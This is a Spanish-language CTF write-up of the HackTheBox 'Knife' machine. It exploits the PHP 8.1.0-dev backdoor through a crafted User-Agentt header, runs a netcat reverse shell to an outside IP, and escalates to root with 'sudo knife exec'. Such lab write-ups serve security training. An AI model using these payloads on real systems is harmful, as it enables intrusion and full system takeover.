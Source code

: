 ```yaml
---
layout: post
title:  "HackTheBox - Knife"
author: erik
categories: [ HTB ]
image: https://user-images.githubusercontent.com/47476901/155027848-ef97c64e-42e1-4866-bee6-1372c5ea449d.png
beforetoc: ""
toc: false
tags: [ HTB, GTFOBINS, Linux ]
---
```

Maquina Linux nivel facil

# Table of Contents
1. [Enumeración](#enumeracion)
2. [Explotación](#explotacion)
3. [Escalación de Privilegios](#escalacion)

---

## Enumeración: <a name="enumeracion"></a>

**Puertos:**
- 22  ssh  OpenSSH 8.2p1
- 80  http  Apache httpd 2.4.41 (Ubuntu)


Analizando la web encontramos una vulnerabilidad en la version del php.
Dicha vulnerabilidad nos permite ejecutar codigo albitrario en el "User Agent"

*VULNERABILIDAD*

- Versión: PHP 8.1.0-dev
- RCE in "User Agent"
- <a href="https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py" target="_blank">Source</a>


Una vez hemos encontrado la vulnerabilidad procedemos a explotarla.
Usaremos BurpSuite y interceptamos una petición normal del servidor a nuestro proxy

Usaremos el User Agent que nos permitirá hacer un RCE en el servidor.

- User-Agentt: zerodiumsystem('id');

![RCE-test](https://user-images.githubusercontent.com/47476901/132779370-39ddc518-e9cb-4474-bb62-5644fc1c5add.png)

## Explotación: <a name="explotacion"></a>

Ya hemos comprobado que funciona, ahora toca explotarla y darnos la reverse a nuestra maquina.

- Usaré la reverse shell de "NetCat"
```
User-Agentt: zerodiumsystem('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.201 1234 >/tmp/f');
```

![RCE-revshell](https://user-images.githubusercontent.com/47476901/132779376-85a24bde-8d38-4a4d-a19c-517e56276839.png)


## Escalación de privilegios: <a name="escalacion"></a>

Flag de user

![user txt](https://user-images.githubusercontent.com/47476901/132779381-b45d0e59-91c5-41da-a544-88b6caeeee9f.png)


Observando que permisos tiene el usuario, nos damos cuenta que puede correr un binario como root.

- /usr/bin/knife

![Binario](https://user-images.githubusercontent.com/47476901/132779384-f4ac9a1b-e287-476f-b1b1-b56a95118219.png)

Mirando como funcionaba este binario en el manual de ayuda encontré algo que llamaba la atención y vi que se podian ejecutar scripts con la extensión "exec"

![Help-exec](https://user-images.githubusercontent.com/47476901/132779390-436fdceb-a41d-4fb5-aa02-ca947e38b506.png)

Ya hemos encontrado algo util y llamativo para ejecutar comandos como root, al poder ejecutar scripts en este binario (que se ejecutan como root) procedemos a implementar un script que nos proporcione una shell 

Usamos el siguiente comando y obtenemos shell de root:
```bash
sudo /usr/bin/knife exec --exec "exec '/bin/bash'"
```

![GettingRoot](https://user-images.githubusercontent.com/47476901/132779395-f6582e92-ca1d-4cd0-8002-18c763338484.png)

Flag de root

![root txt](https://user-images.githubusercontent.com/47476901/132779400-a834c2be-b015-45c9-9879-6593bb8dbe37.png)

**Maquina Completada**
